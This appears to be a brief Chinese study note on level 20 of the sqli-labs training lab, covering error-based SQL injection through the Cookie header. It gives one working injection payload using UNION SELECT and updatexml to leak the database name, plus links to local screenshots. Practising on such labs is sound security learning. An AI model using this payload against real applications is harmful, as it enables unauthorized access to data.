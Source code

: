 title: sql-labs 20关

less-20——基于’的`Cookie:`报头文报错注入

注入语句：

uname=' union select 1,2,(updatexml(1,concat(0x7e, database(),0x7e),1))# ;

![image-20220330104652217](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20220330104652217.png)

![image-20220330104702725](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20220330104702725.png)